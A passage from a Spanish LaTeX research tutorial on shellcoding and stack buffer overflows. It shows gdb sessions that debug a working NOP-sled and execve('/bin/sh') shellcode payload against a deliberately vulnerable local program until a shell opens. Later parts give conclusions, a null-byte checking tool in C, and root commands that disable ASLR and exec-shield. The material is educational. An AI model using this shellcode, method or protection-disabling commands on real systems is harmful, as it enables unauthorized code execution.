Fallo de segmentación
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedAmpliado `perl -e 'print "\x90"x77 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
Fallo de segmentación
\end{listing}

Como se puede ver, la ejecuci\'on del $exploit$ no ha sido satisfactoria. As\'i que se depurar\'a la ejecuci\'on con $gdb$ para entender mejor lo que est\'a ocurriendo.

\begin{listing}[style=consola, numbers=none, caption=Depuraci\'on del $exploit$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedAmpliado
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado...hecho.
(gdb) run `perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`

Program received signal SIGILL, Illegal instruction.
0xbffff342 in ?? ()
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 30423] will be killed.

¿Salir de cualquier modo? (y o n) y
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 
\end{listing}

Como se puede ver, la direcci\'on del registro $eip$ es 0xbffff342, que es muy cercana a la que se deseaba, 0xbffff340. As\'i que el problema no es que la direcci\'on de retorno no se sobreescriba bien. Muy probablemente, el problema radica en que no se ha elegido correctamente la direcci\'on de retorno. Para saber exactamente d\'onde se ubica el par\'ametro que se inyecta, se va a realizar un peque\~na trampa. Se va a mostrar el contenido de las direcciones de memoria relativas a la pila. De este modo, se podr\'a identificar donde se ubica el NOP Sled y se conocer\'a la direcci\'on donde se ubica el par\'ametro inyectado.

\begin{listing}[style=consola, numbers=none, caption=Direcci\'on de memoria del NOP Sled]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedAmpliado
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado...hecho.
(gdb) run `perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`

Program received signal SIGILL, Illegal instruction.
0xbffff342 in ?? ()
(gdb) x/200x 0xbffff390
0xbffff390:	0xbffffe0b	0xbffffe13	0xbffffe3f	0xbffffe4e
0xbffff3a0:	0xbffffeb0	0xbffffeed	0xbfffff0d	0xbfffff1a
0xbffff3b0:	0xbfffff27	0xbfffff49	0xbfffff62	0x00000000
0xbffff3c0:	0x00000020	0x0012e414	0x00000021	0x0012e000
0xbffff3d0:	0x00000010	0xbfe9f3ff	0x00000006	0x00001000
0xbffff3e0:	0x00000011	0x00000064	0x00000003	0x08048034
0xbffff3f0:	0x00000004	0x00000020	0x00000005	0x00000008
0xbffff400:	0x00000007	0x00110000	0x00000008	0x00000000
0xbffff410:	0x00000009	0x080483d0	0x0000000b	0x000003e8
0xbffff420:	0x0000000c	0x000003e8	0x0000000d	0x000003e8
0xbffff430:	0x0000000e	0x000003e8	0x00000017	0x00000000
0xbffff440:	0x00000019	0xbffff46b	0x0000001f	0xbfffff9a
0xbffff450:	0x0000000f	0xbffff47b	0x00000000	0x00000000
0xbffff460:	0x00000000	0x00000000	0x64000000	0x4b207e0e
0xbffff470:	0x5f3e166f	0x29de5d5c	0x69515e02	0x00363836
0xbffff480:	0x00000000	0x00000000	0x682f0000	0x2f656d6f
0xbffff490:	0x6c77656e	0x442f676f	0x6d75636f	0x6f746e65
0xbffff4a0:	0x68532f73	0x636c6c65	0x6e69646f	0x6f432f67
0xbffff4b0:	0x6f676964	0x74532f73	0x4f6b6361	0x66726576
0xbffff4c0:	0x73776f6c	0x7361422f	0x78456369	0x6c706d61
0xbffff4d0:	0x61702f65	0x6f777373	0x72506472	0x6365746f
0xbffff4e0:	0x41646574	0x696c706d	0x006f6461	0x90909090
0xbffff4f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff500:	0x90909090	0x90909090	0x90909090	0x90909090
---Type <return> to continue, or q <return> to quit---
0xbffff510:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff520:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff530:	0x90909090	0xc0319090	0x520bb099	0x732f2f68
0xbffff540:	0x622f6868	0xe3896e69	0x53e28952	0x80cde189
0xbffff550:	0xbffff340	0xbffff340	0xbffff340	0xbffff340
0xbffff560:	0xbffff340	0xbffff340	0xbffff340	0xbffff340
0xbffff570:	0xbffff340	0xbffff340	0xbffff340	0xbffff340
0xbffff580:	0x42524f00	0x535f5449	0x454b434f	0x52494454
0xbffff590:	0x6d742f3d	0x726f2f70	0x2d746962	0x6c77656e
0xbffff5a0:	0x5300676f	0x415f4853	0x544e4547	0x4449505f
0xbffff5b0:	0x3432313d	0x48530035	0x3d4c4c45	0x6e69622f
0xbffff5c0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff5d0:	0x47445800	0x5345535f	0x4e4f4953	0x4f4f435f
0xbffff5e0:	0x3d45494b	0x65313664	0x61343137	0x34656465
0xbffff5f0:	0x66633034	0x37336635	0x62633566	0x30303030
0xbffff600:	0x39303030	0x3932312d	0x33313135	0x2e303031
0xbffff610:	0x30363532	0x312d3936	0x38373638	0x38373739
0xbffff620:	0x49570030	0x574f444e	0x373d4449	0x37393435
0xbffff630:	0x00353734	0x4d4f4e47	0x454b5f45	0x4e495259
0xbffff640:	0x4f435f47	0x4f52544e	0x742f3d4c	0x6b2f706d
0xbffff650:	0x69727965	0x322d676e	0x65324332	0x54470079
0xbffff660:	0x4f4d5f4b	0x454c5544	0x61633d53	0x7265626e
0xbffff670:	0x672d6172	0x6d2d6b74	0x6c75646f	0x53550065
0xbffff680:	0x6e3d5245	0x6f6c7765	0x534c0067	0x4c4f435f
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 30448] will be killed.

¿Salir de cualquier modo? (y o n) y
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 
\end{listing}

Como se puede ver se examinan las direcciones de memoria contiguas al inicio de la pila, o sea, contiguas a la direcci\'on 0xbffff390. Si se analizan los datos proporcionados por $gdb$ se puede comprobar como en la direcci\'on 0xbffff510 el NOP Sled ya est\'a presente. As\'i pues, si se utiliza la direcci\'on 0xbffff510 como direcci\'on de retorno, el flujo de ejecuci\'on del programa se desviar\'a hacia en medio del NOP Sled. A continuaci\'on se muestra si este razonamiento es correcto:

\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on correcta del $exploit$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedAmpliado
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado...hecho.
(gdb) run `perl -e 'print "\x90"x74 ."\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" . "\x10\xf5\xff\xbf"x12';`
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "\x90"x74 ."\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" . "\x10\xf5\xff\xbf"x12';`
process 30601 is executing new program: /bin/dash
$ exit

Program exited normally.
(gdb) quit
\end{listing}

Como se puede comprobar, el $exploit$ se ha ejecutado correctamente y gracias a \'el se ha ejecutado el $shellcode$, que ha brindado una $shell$ con la que ejecutar cualquier comando que el atacante quisiera ejecutar. Evidentemente los permisos de la $shell$ son los mismos que los del ejecutable. \bigskip

En este momento se ha conseguido ejecutar un $exploit$ satisfactoriamente para vulnerar toda la seguridad de un sistema.

\pagebreak

\section{Conclusiones}
\bigskip
No se puede negar que, en algunos momentos, la realizaci\'on de esta investigaci\'on se ha hecho cuesta arriba. Aun conociendo que el tema tratado es complejo de por si, uno no puede vislumbrar la complegidad real de un problema hasta que no lo est\'a resolviendo. Han sido muchas las dificultades que han surgido en el momento del desarrollo de esta investigaci\'on, sin embargo, gracias a las m\'ultiples herramientas que nos ofrecen los lenguajes de programaci\'on se ha podido ir avanzando lentamente para acabar descubriendo cual es el verdadero funcionamiento de las t\'ecnicas estudiadas.\bigskip

Debido a que en esta investigaci\'on se desarrollaban los conceptos te\'oricos y despu\'es se demostraban a partir de la realizaci\'on de programas que probaran emp\'iricamente las conclusiones a las que se hab\'ia llegado, han sido muchas las ocasiones en las que se ha tenido que corregir una u otra cosa porqu\'e en el momento de probarla se ha llegado a la conclusi\'on de que el funcionamiento real no es el mismo que el que deber\'ia ser te\'oricamente. Muchas veces creemos todo aquello que leemos de una fuente fidedigna, sin embargo, esta investigaci\'on me ha demostrado que la mayor\'ia de las veces deber\'iamos probar todas aquellas verdades que se dan por sentadas.\bigskip

Uno de los conceptos que m\'as me ha costado demostrar ha sido la construcci\'on real de un marco de pila creado por el compilador GCC. Aun habiendo programado un compilador yo mismo y conociendo los fundamentos te\'oricos de los marcos de pilas en diferentes arquitecturas, descubrir porqu\'e los datos no se encontraban en las direcciones de memoria donde deber\'ian haberse ubicado se me ha hecho bastante complicado. Lo peor fue cuando me di cuenta de que la construcci\'on del marco de pila generado por el compilador GCC no est\'a documentada por ning\'un sitio. Ni en la documentaci\'on oficial del compilador. Del mismo modo la mayor\'ia de personas que preguntaban por el tema en la lista de correo del compilador no obten\'ian m\'as que vagas respuestas al problema. Sin embargo, con muchas pruebas, investigaci\'on y las pocas respuestas encontradas se ha podido llegar a deducir el sistema utilizado por el compilador en la mayor\'ia de los casos. Sin embargo, no se ha querido entrar en el comportamiento del compilador cuando se trabaja con tipos de datos
m\'as complejos, como ahora estructuras. \bigskip

Una de las principales razones por las que est\'a investigaci\'on ha sido tan ardua ha sido el hecho de que existe muy poca documentaci\'on de calidad sobre el tema tratado. El primer art\'iculo destinado al p\'ublico sobre este tema se escribi\'o en 1996 por Aleph One y aunque hayan pasado m\'as de 14 a\~nos desde ese momento, cuando un curioso $hacker$ necesita informaci\'on sobre la explotaci\'on de $software$ lo primero que acostumbra a realizar la comunidad es dirigirlo hac\'ia la lectura del art\'iculo de Aleph One. Pudiera ser que la comunidad lo dirigiera hasta este art\'iculo por la grand\'isima calidad del mismo, y no ser\'ia mentir afirmar tal cosa, sin embargo, otra de las razones por la que la comunidad toma esta decisi\'on es porqu\'e, a d\'ia de hoy, tal y como se ha comentado, existen pocos documentos de calidad que hablen sobre este tema y tambi\'en hay poca gente que realmente disponga de los conocimientos necesarios para instruir a los dem\'as.\bigskip

Para la realizaci\'on de esta investigaci\'on se ha intentado resumir, simplificar y mejorar la infomaci\'on encontrada en los tres libros citados en la bibliograf\'ia. Dos de ellos son imposibles de comprar en la mayor\'ia de librer\'ias espa\~nolas y el libro que est\'a en castellano es una edici\'on muy reciente. Con esto quiero resaltar el hecho de que encontrar informaci\'on sobre el tema es complicado, pero lo peor de todo es darse cuenta que hay muchos conceptos que en ninguno de los libros se explica con claridad o simplemente ni se explica. Conseguir ayuda en los momentos en los que me he quedado estancado ha sido muy dif\'icil. Por suerte, tanto a nivel nacional como a nivel internacional aun existen $hackers$ como los de anta\~no que se preocupan de estudiar todas aquellas cosas que suceden a bajo nivel y no dudan en compartir sus conociemientos. A nivel nacional debo agradecer la ayuda prestada a la comunidad de $Wadalbertia$ y a nivel internacional debo dar mi agradecimiento al equipo de $Corelan$.  \bigskip

Si bien es cierto que esta investigaci\'on no es lo extensa que debiera, debo resaltar que el s\'olo hecho de avanzar de un concepto a otro era un proceso, normalmente, largo, complicado y lleno de equivocaciones que corregir. Aunque sobre la explotaci\'on de software se ha explicado el concepto principal que rige la mayor\'ia de los desbordamientos, se han dejado en el tintero muchos tipos de desbordamientos que no se han tratado por tiempo de desarrollo y por su complejidad. En un principio pensaba que ser\'ia capaz de explicar los desbordamientos de b\'uferes ubicados en el $heap$, que son los desbordamientos que m\'as se aprovechan hoy en d\'ia, debido a que los m\'etodos de las clases se ubican por esa regi\'on de memoria. Sin embargo, el tiempo ha sido un factor que ha ido en mi contra. Adem\'as, una vez explicados los debordamientos de b\'ufers en la pila s\'olo es necesario conocer cu\'al es la estructura de datos que se implementa en el $heap$ para saber c\'omo explotarlo. Creo que en la presente investigaci\'on se han tratado los conceptos suficientes para que el lector sea capaz de avanzar el mismo por el apasionante mundo del $exploiting$. \bigskip

A d\'ia de hoy, se publican anualmente cientos de vulnerabilidades que afectan a sistemas utilizados por millones de personas. Lo mejor que se puede hacer es publicar las vulnerabilidades porqu\'e de este modo los fabricantes de software son capaces de corregirlas y distribuirlas para que los usuarios no se vean afectados por ellas. Aunque existe una gran pol\'emica sobre la publicaci\'on de las vulnerabilidades, yo creo que hacerlas p\'ublicas contribuye a que el crecimiento de la comunidad y a la securizaci\'on de los sistemas con los que trabajamos d\'ia a d\'ia.\\
Existen mafias que compran este tipo de informaci\'on por miles y miles de euros. Las vulnerabilidades que acostumbran a utilizar estas mafias acostumbran a ser vulnerabilidades que no se han publicado y que se est\'an utilizando continuamente para oscuros prop\'ositos. Cada vez que un $hacker$ publica una vulnerabilidad y los fabricantes de software o los particulares las corrigen, es muy posible que los atacantes se hayan quedado sin un buen fil\'on de oro que utilizar. Adem\'as, cada vez que se corrige un error en una aplicaci\'on o sistema operativo se contribuye a construir un software m\'as seguro y esto nos beneficia a todos. Me he dado cuenta que realizando esta investigaci\'on estoy ayudando a construir un mundo m\'as seguro para nuestro futuro. Espero poder seguir contribuyendo con la comunidad para enriquecerla igual que ella me ha enriquecido a mi -y continuar\'a haci\'endolo - durante tanto tiempo.\bigskip

Por \'ultimo, me gustar\'ia resaltar que, seg\'un mi opini\'on, el $exploiting$ es la m\'axima expresi\'on del $hacking$. Cuando uno es capaz de desarrollar su propio $exploit$  para una situaci\'on concreta y un software espec\'ifico significa que es capaz de comprender cada uno de los oscuros procesos que se dan en lo m\'as profundo de un sistema. Cuando uno es capaz de programar su propio $exploit$ es capaz de modificar el prop\'osito para el cual est\'a programado un c\'odigo fuente. Es capaz de someter cualquier sistema a su propia voluntad con su ingenio. El ingenio que le ha servido para descubrir m\'etodos para aprovechar los nimios errores de otro programador. Y lo mejor de todo es que cuando un verdaderos $hacker$ dispone de todo este poder... No duda en compartirlo y ceder sus privilegios en pos de construir una sociedad m\'as segura en la que el conocimiento sea libre.
\pagebreak

\section{L\'ineas de futuro}
\bigskip
Tal y como se puede comprobar leyendo el t\'itulo de esta investigaci\'on, este trabajo no es m\'as que una introducci\'on al mundo de la explotaci\'on de software. Una vez desarrollado el trabajo, se puede comprobar que se ha hecho m\'as \'enfasis en el concepto de $shellcoding$ que en el concepto de $exploiting$. \\
Si bien es cierto que cualquier lector deber\'ia ser capaz de programar cualquier tipo de $shellcode$ que se propusiera, no ocurre lo mismo cuando uno se plantea explotar software. Esta investigaci\'on s\'olo ha podido dar unos conceptos b\'asicos sobre $exploiting$, por esta raz\'on, en el tintero han quedado muchos otros conceptos como el desbordamiento de enteros, ataques de formato de cadena, desbordamientos en el $heap$, $bypass$ de los sistemas de protecci\'on implementados actualmente o, simplemente, la explotaci\'on de software en otros sistemas operativos o plataformas. El mundo de la explotaci\'on de software es complejo y extenso por igual. \bigskip

Una vez el lector tenga claros los conceptos aqu\'i expuestos deber\'ia avanzar hac\'ia el estudio de desbordamientos en otros segmentos de memoria que no sean la pila. Actualmente, el desbordamiento de bufers en el $heap$ es uno de los errores m\'as comunes y m\'as explotados. Hasta hace bien poco, eran pocos los sistemas de seguridad implementados en el $heap$, al contrario de lo que ocurr\'ia en la pila, en la que ya se implementaban medidas de seguridad como los $stack$ $canaries$. Por otro lado, los desbordamientos de bufers en el $heap$ son altamente peligrosos ya que es en el $heap$ donde se almacenan las direcciones de memoria a los m\'etodos que forman los ejecutables programados en lenguajes orientados a objetos. Por esta raz\'on, el siguiente paso para un apasionado del $exploiting$ ser\'ia enfrascarse de lleno en el estudio de las estructuras de datos implementadas en el $heap$. \bigskip

Una vez se entendieran los conceptos de desbordamiento de bufers en el $heap$ ya se podr\'ia empezar a estudiar c\'omo vulnerar los sistemas de seguridad implementados por el sistema operativo y el compilador para prevenir la explotaci\'on de software. Actualmente, todos los m\'etodos de prevenci\'on se pueden vulnerar, aunque esto no siempre es posible y existe software vulnerable que no se puede explotar debido a estas medidas de seguridad. Cada d\'ia aparecen nuevos m\'etodos para saltarse estas medidas de seguridad y, de igual modo, cada d\'ia aparecen nuevos m\'etodos de seguridad.\bigskip

Una vez se dominaran a la perfecci\'on todas las t\'ecnicas publicadas en los art\'iculos m\'as actuales, el lector ya ser\'ia capaz de contribuir con la comunidad de igual modo que la comunidad contribuy\'o con \'el. El circulo se habr\'ia cerrado al fin.  

\pagebreak

\section{Coste temporal}
\bigskip

Aunque la extensi\'on de esta investigaci\'on no refleje la cantidad de horas invertidas en ella, la dificultad de los conceptos s\'i que lo hace. Pudiera parecer que han sido escasas las horas invertidas en relaci\'on a la extensi\'on del trabajo, sin embargo, como ya se ha comentado, demostrar cualquiera de los conceptos explicados se pod\'ia convertir en una ardua tarea. \bigskip

Del mismo modo, documentarse sobre el tema en cuesti\'on ha sido dif\'icil de por si. Pasando por alto la b\'usqueda y elecci\'on de las fuentes fiables y las no fiables, entender todos los conceptos presentados en los libros le\'idos no ha sido trivial. La mayor\'ia de veces, cada p\'agina le\'ida requer\'ia sumo esfuerzo para no perderse con ninguna explicaci\'on. Para acabar de entender todos los conceptos fue necesario leer los libros una vez tras otra. Primero se realiz\'o una lectura introductoria para entender cuales eran los conceptos presentados por cada uno de los libros. Posteriormente se eligi\'o qu\'e conceptos eran mejor explicados por un libro o por otro. A continuaci\'on y, una vez enfrascados en la redacci\'on del trabajo, fu\'e necesaria la demostraci\'on de cada uno de los conceptos explicados y, por \'ultimo, s\'olo quedaba redactar, aclarar y mejorar cada una de los puntos de esta investigaci\'on.\bigskip

Adem\'as de realizar todo lo citado anteriormente, tambi\'en se crey\'o pertinente explicar conceptos que no se presentaban en ninguna de las fuentes citadas. Para la realizaci\'on de estos apartados la \'unica documentaci\'on de la que se dispon\'ia era la que yo mismo pudiera crear con los c\'odigos fuentes desarrollados para tal efecto. De este modo pude demostrar, contrastar y hasta negar algunos de los hechos que se daban por sentado en las fuentes utilizadas. Este proceso, aunque s\'olo diera para dar una explicaci\'on de dos p\'aginas, requer\'ia un gran esfuerzo de investigaci\'on. \bigskip

Por todo lo comentado en los par\'agrafos anteriores, creo que queda m\'as que justificado el n\'umero de horas presentadas en la tabla mostrada a continuaci\'on. 

\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Coste temporal}
   	\label{tab:coste temporal}   		
	\begin{center}
	\begin{tabular}{||l | c | r||}
		\hline
		\hline
		Concepto & Horas & Porcentaje \\
		\hline
		Documentaci\'on & 85 & 17.17\\
		\hline
		Realizaci\'on parte te\'orica & 175 & 35.35\\
		\hline
		Realizaci\'on parte pr\'actica & 235 & 47.47\\
		\hline
		Horas totales & 495 & 100\\
		\hline
	\end{tabular} %%\botfigrule
	\end{center}
\end{table}

Estimar las horas exactas de una investigaci\'on realizada durante un a\~no y medio siempre es complicado. Debido a que la mente siempre acostumbra a suavizar los momentos complicados y pesados en la vida de una persona, bien se podr\'ia deducir que el n\'umero de horas expuesto en la tabla anterior est\'a estimado a la baja. Sin embargo, la idea principal con la que se deber\'ia quedar el lector es en el porcentaje de horas utilizadas en cada apartado. \\
\\
Como se puede ver, el n\'umero de horas estimado para la documentaci\'on es el m\'as bajo. Realmente, esta afirmaci\'on es falsa ya que llevo muchos a\~nos leyendo documentos sobre $exploiting$ y $shellcoding$. El n\'umero de horas reales de lectura realmente sobrepasar\'ia con creces el estimado. Sin embargo, s\'olo se ha hecho un c\'alculo aproximado del n\'umero de horas invertidas en la documentaci\'on desde el momento en el que se decidi\'o realizar esta investigaci\'on.\\
Por otro lado, puede que las horas estimadas para la redacci\'on de los conceptos te\'oricos sea la m\'as correcta. Sin embargo, en estas horas no se ha contabilizado el tiempo invertido en aprender el lenguaje de programaci\'on Latex utilizado para la realizaci\'on de este documento. 
\\
Por \'ultimo, y sin lugar a dudas, el aspecto pr\'actico es en el que m\'as horas se han invertido. No s\'olo por la programaci\'on de ejemplos de programas vulnerables o $shellcodes$ funcionales o c\'odigos utilizados como herramientas, sino por el dise\~no y programaci\'on de c\'odigos fuentes que me permitieran demostrar que lo que estaba exponiendo realmente se cumpl\'ia.

\pagebreak

\begin {thebibliography}{4}
%%\addcontentsline{toc}{section}{Bibliograf\'ia}
\bigskip
\bibitem{Jon_Erickson} Erickson, J.(2008). Hacking: T\'ecnicas fundamentales. 1a edici\'on. Espa\~na: Anaya Multimedia. ISBN 978-84-415-2469-9 \\
\bibitem{James_Foster} Foster, J.; Liu, V.(2006). Writing Security Tools and Exploits. 1a edici\'on. Canada: Syngress. ISBN 1-59749-997-8 \\
\bibitem{Gray_Hat} Harris, S.; Harper, A.; Eagle, C.; Ness J. (2008). Gray Hat Hacking: The Ethical Hacker's Handbook. 2a edici\'on. United States of America: The McGraw-Hill Companies. ISBN 978-0-07-149568-4 \\
\bibitem{Aleph_One} Aleph One. (1996). ''Smashing The Stack For Fun And Profit''. Phrack [en l\'inea]. Vol. 49. Cap\'itulo 14.
\end{thebibliography}

\pagebreak

\appendix
%\appendixpage
%\addappheadtotoc
%\appendixname
\section{Ap\'endice I}
\textbf{makefile}
%\begin{verbatim}
\lstset{language=C++,caption=makefile}
\begin{lstlisting}
CFLAGS = -Wall -Wextra -ggdb
all: link
Mensajes.o: Mensajes.c Mensajes.h
	gcc -c Mensajes.c $(CFLAGS)
Salida.o: Salida.c Salida.h
	gcc -c Salida.c $(CFLAGS)
Nullbytes.o: Nullbytes.c
	gcc -c Nullbytes.c $(CFLAGS)
link: Mensajes.o Salida.o Nullbytes.o
	gcc Mensajes.o Salida.o Nullbytes.o -o NullBytes
\end{lstlisting}\bigskip

\textbf{Mensajes.h}
%\begin{verbatim}
\lstset{language=C++,caption=Mensajes.h}
\begin{lstlisting}
#ifndef _MENSAJES_H
#define _MENSAJES_H

void Errors (int numError);

void Mensaje ();

#endif
\end{lstlisting}\bigskip

\textbf{Mensajes.c}
%\begin{verbatim}
\lstset{language=C++,caption=Mensajes.c}
\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>

void Errors (int numError) {
switch(numError) {
	case 1:
		printf("[-] Usage: ./NullBytes <program>\n");break;
	case 2:
		printf("[-] No se ha podido crear la tuberia\n");break;
	case 3:
		printf("[-] No se ha podido crear el hijo\n");break;
	case 4:
		printf("[-] No se han podido duplicar los descriptores de archivo\n");break;
	case 5:
		printf("[-] No se han podido ejecutar ndisasm\n");break;
	case 6:
		printf("[-] La longitud del parametro es de mas de 145 caracteres\n");break;
	case 7:
		printf("[+] NullBytes te senalar que instrucciones desensambladas contienen 
								los bytes nulos y ademas cuantos hay en total\n");
		printf("[+] El shellcode desensamblado no puede tener mas de 5000 bytes.\n");
		printf("[+] Usage: ./NullBytes <program>\n");break;
	default:
	break;	
}
	exit(-1);
}

void Mensaje () {
	printf("\n[+] NullBytes v0.1, por Albert Lopez Fernandez\n");
	printf("[+] Haciendo uso de la utilidad ndisasm,\n");
	printf("[+] NullBytes te permite saber si tu shellcode 
								contiene bytes nulos y donde se encuentran\n\n");
}
\end{lstlisting}\bigskip

\textbf{Salida.h}
%\begin{verbatim}
\lstset{language=C++,caption=Salida.h}
\begin{lstlisting}
#ifndef _SALIDA_H
#define _SALIDA_H

void Proceso (char * salida);

#endif
\end{verbatim}\bigskip

\textbf{Salida.c}
\begin{verbatim}
#define GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>				//Para los tipos de variable ssize_t y size_t

void Proceso (char * salida) {
//printf("%s\n", salida);
char *linea = NULL, CodigoMaquina[70], Opcode[70], *str1;
const char *delim = "\n";
size_t i = 0, j;
size_t BytesNulos = 0;
char *saveptr1;

//El primer valor de str1 ha de ser cadena, despues ha de ser NULL siempre
for(str1 = salida ; ; str1 = NULL) {
	//Dejamos que strtok_r haga su magia
	linea = strtok_r(str1, delim, &saveptr1);
	//Si ya lo hemos capturado todo salimos
	if (linea == NULL) break;
	
	bzero(CodigoMaquina, sizeof(CodigoMaquina));
	i = 0;
	while ( (linea[10+i] < 97) || (linea[10+i] > 122)  ) {	
	//Mientras no leamos una minscula (signo de que es un opcode)
		CodigoMaquina[i] = linea[10+i];				//En linea[10] empieza el codigo maquina	
		i++;
	}//fin while
	bzero(Opcode, sizeof(Opcode));
	j = i;
	while ( ((linea[10+i] != '\n') || (linea[10+i] != '\0')) && 
	((i+10) < strlen(linea))) {
		Opcode[i-j] = linea[10+i];
		i++;
	}
	
	i = 0;
	while ( CodigoMaquina[i] != '\0' ) {
		if ( ( (i % 2) == 0 ) && ( CodigoMaquina[i] == 48 ) && 
		( CodigoMaquina[i+1] == 48 ) ) {
			//Tenemos un byte nulo
			printf("Byte Nulo en %s perteneciente a la 
			instruccion        %s\n", CodigoMaquina, Opcode);
			BytesNulos++;
		}
		i++;
	}
}//Fin for
printf("\nHay un total de %d bytes nulos\n", BytesNulos);
}
\end{lstlisting}\bigskip

\textbf{Nullbytes.c}
%\begin{verbatim}
\lstset{language=C++,caption=Nullbytes.C}
\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include "Mensajes.h"
#include "Salida.h"
/**************************************************
* Este codigo interpretara la salida del comando: *
*            ndisasm -b32 ejecutable              *
***************************************************/
void Errors (int numError);
void Mensaje();
int main(int argc, char **argv) {
Mensaje();
signal(SIGCHLD, SIG_IGN);					//Els fills matats no quedaran zombis
if ( argc < 2 || argc > 2 ) Errors(1);
if ( strcmp(argv[1],"--help") == 0 || strcmp(argv[1],"-h") == 0 ) Errors(7);
int fd[2], pid;
char salida[10000], argumentos[150];

bzero(argumentos, sizeof(argumentos));
if ( strlen(argv[1]) > 144 ) Errors(6);

strncat(argumentos, argv[1], 144);

if ( pipe(fd) == -1 ) Errors(2);
pid = fork();
switch (pid) {
	case -1: Errors(3); break;				//No s'ha creat el nou proces
	case 0:
		close(fd[0]);
		//Tot el que surti per pantalla ho enviem a fd[1]
		if ( dup2(fd[1],1) == -1 ) Errors(4);
		//Executem ndisasm -b32 <programa>
		if ( execlp("ndisasm", "ndisasm", "-u", argumentos, NULL) == -1 ) Errors(5);
		close(fd[1]);
	break;
	default:
		close(fd[1]);
		bzero(salida,sizeof(salida));
		read (fd[0], salida, 10000);
		Proceso (salida);
		close(fd[0]);
		kill(pid, SIGKILL);
	break;
}

return 0;
}$
\end{lstlisting}

\pagebreak


\section{Ap\'endice II}
\bigskip
En este ap\'endice se explican algunas de las medidas de seguridad implementadas por el sistema operativo Unix y el compilador GCC. Adem\'as, tambi\'en se detalla el modo de desactivar dichas medidas de seguridad. \bigskip

Por otro lado, en este ap\'endice tambi\'en se detallan los diferentes m\'etodos de compilaci\'on que se han utilizado en esta investigaci\'on para generar los ejecutables necesarios.
\bigskip
\begin{itemize}
	\item \textbf{Medidas de seguridad}
\end{itemize}

La principal medida de seguridad que implementa el sistema operativo Linux es la conocida como $Address$ $Space$ $Layout$ $Randomization$ o ASLR. Esta medida de seguridad se basa en randomizar la posici\'on de memoria donde se ubican algunas estructuras de datos en memoria, como, por ejemplo, la pila.\\
\\
En la mayor\'ia de sistemas basta con ejecutar los siguientes comandos para desactivar esta medida de seguridad. Estos comandos se deben ejecutar como usuario $root$.

\begin{listing}[style=consola, numbers=none, caption=Desactivando medidas de seguridad]
echo "0" > /proc/sys/kernel/randomize_va_space
echo "0" > /proc/sys/kernel/exec-shield
echo "0" > /proc/sys/kernel/exec-shield-randomize
\end{listing}

Para comprobar que ASLR est\'a desactivada, basta con ejecutar el siguiente c\'odigo fuente varias veces.

\lstset{language=C++,caption=Comprobando ASLR}
\begin{lstlisting}
#include <stdio.h>

int main(int argc, char ** argv) {

        int reg_esp;

        __asm__ __volatile__ ("mov %%esp, %0" :"=g"(reg_esp));

        printf("ESP value: %p\n", (void *) reg_esp);

        return 0;
}
\end{lstlisting}

